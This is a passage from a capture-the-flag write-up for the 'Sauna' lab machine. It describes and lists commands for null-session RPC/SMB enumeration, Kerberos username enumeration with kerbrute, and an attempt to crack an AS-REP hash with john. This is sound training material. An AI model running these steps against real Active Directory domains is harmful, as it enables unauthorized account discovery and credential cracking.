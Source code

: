 <br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_05.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_06.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_07.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_08.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_09.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_10.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_11.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_12.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Another protocol I can use to enumerate the system is **RPC**, but when I try to access with `rpcclient` without entering a password it denies me access, I'm not having much luck with the **SMB** protocol either because I cannot connect or list the shared resources using the `smbclient` or `smbmap` tools. If I add the new subdomain I found to my **hosts** configuration file and use the browser to inspect, I can't see any change in the application which is an indication that **Virtual Hosting** is not being implemented. Since I'm in an **Active Directory** I'm dealing with the **Kerberos** protocol and I have the `kerbrute` tool, a project by **[ropnop](https://github.com/ropnop/kerbrute){:target="_blank"}**, available on **Github**, which I download on my machine to validate **DC** accounts. I create a custom dictionary using the team's names I found on the web and succed to find a valid account, plus its **AS-REP hash** that is impossible for me to crack with `john`.

> **[kerbrute](https://github.com/ropnop/kerbrute){:target="_blank"}**: This tool is designed to assist in quickly bruteforcing valid **Active Directory** accounts through **Kerberos Pre-Authentication**. It is designed to be used on an internal Windows domain with access to one of the **Domain Controllers**. <span style="color: red;">Warning:</span> failed Kerberos Pre-Auth counts as a failed login and WILL lock out accounts.

```bash
rpcclient -U "" 10.10.10.175 -N
  enumdomusers
  enumdomgroups
smbclient -L 10.10.10.175 -N
smbmap -H 10.10.10.175 -u 'null' --no-banner

nvim /etc/hosts
cat /etc/hosts | tail -n 1
# http://sauna.egotistical-bank.local/

kerbrute --help
# userenum      Enumerate valid domain usernames via Kerberos

nvim Usernames.txt
cat !$
kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local Usernames.txt

john -w=$(locate rockyou.txt)
john -w=/usr/share/wordlists/rockyou.txt kerberos_hash
```

